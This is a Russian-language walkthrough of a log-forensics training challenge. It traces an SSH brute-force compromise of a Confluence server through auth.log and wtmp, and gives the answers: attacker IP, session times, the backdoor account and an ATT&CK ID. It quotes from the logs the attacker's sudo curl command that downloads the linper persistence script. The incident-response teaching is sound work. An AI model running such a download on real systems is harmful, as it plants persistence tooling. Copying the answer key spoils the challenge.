








#### Сценарий
В этом Sherlock ты познакомишься с логами Unix `auth.log` и `wtmp`. Мы разберём сценарий, в котором сервер Confluence был атакован методом brute force через SSH-сервис. После получения доступа к серверу злоумышленник выполнил дополнительные действия, которые можно отследить с помощью `auth.log`.
Хотя `auth.log` в первую очередь используется для анализа brute force-атак, в этом расследовании мы рассмотрим весь потенциал этого артефакта, включая признаки повышения привилегий, закрепления в системе и даже частичную видимость выполнения команд.

### Задание 1
Проанализируйте `auth.log`. Какой IP-адрес использовал злоумышленник для проведения brute force-атаки?

Ответ:

Посмотрим неудачные попытки входа:

Все неудачные попытки входа выполнялись с IP `65.2.161.68` к пользователям `admin`, `backup`, `server_adm`, `svc_account`, `root`, начало подбора пароля было в `6:31:33`.
### Задание 2
Попытки brute force оказались успешными, и злоумышленник получил доступ к учетной записи на сервере. Какое имя пользователя было у этой учетной записи?

Ответ: 

Посмотрим теперь на успешные входы:

Успешный вход был замечен к пользователю `root` в `6:31:40`.
### Задание 3
Определите UTC-время, когда злоумышленник вручную вошёл на сервер и установил сессию для выполнения своих целей. Время входа будет отличаться от времени аутентификации, и его можно найти в артефакте `wtmp`.

Ответ:

После того, как спарсили логи wtmp с помощью предоставленной в задании программы, отфильтруем строки по ip `65.2.161.68`, чтобы понять, когда была создана сессия:

Сессия была создана `2024-03-06 06:32:45`.
### Задание 4
SSH-сессии отслеживаются и получают номер сессии при входе. Какой номер сессии был назначен сессии злоумышленника для учетной записи из вопроса 2?

Ответ: 

Номер подходящей по времени сессии - `37`.

### Задание 5
Злоумышленник добавил нового пользователя в рамках стратегии закрепления на сервере и выдал этой учетной записи повышенные привилегии. Как называется эта учетная запись?

Ответ:

Посмотрим команды, которые похожи на `useradd`,`adduser`. В логах видно, что был создан новый пользователь под именем `cyberjunkie`:

### Задание 6
Какой ID под-техники MITRE ATT&CK соответствует закреплению через создание новой учетной записи?

Ответ:

Техника `Persistence`, техника `Create Account` и подтехника `Local Account`. То есть `T1136.001`.
### Задание 7
В какое время, согласно `auth.log`, завершилась первая SSH-сессия злоумышленника?

Ответ:
Отфильтруем события по назначенному PID-процессу SSH-сессии:

Видно, что злоумышленник вышел из учетной записи в `6:37:24`.

### Задание 8
Злоумышленник вошёл в свою backdoor-учетную запись и использовал повышенные привилегии, чтобы скачать скрипт. Какая полная команда была выполнена через `sudo`?

Ответ:

Отфильтруем логи по имени созданной злоумышленником учетки `cyberjunkie`:

В логах отображется команда `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

Congrats!

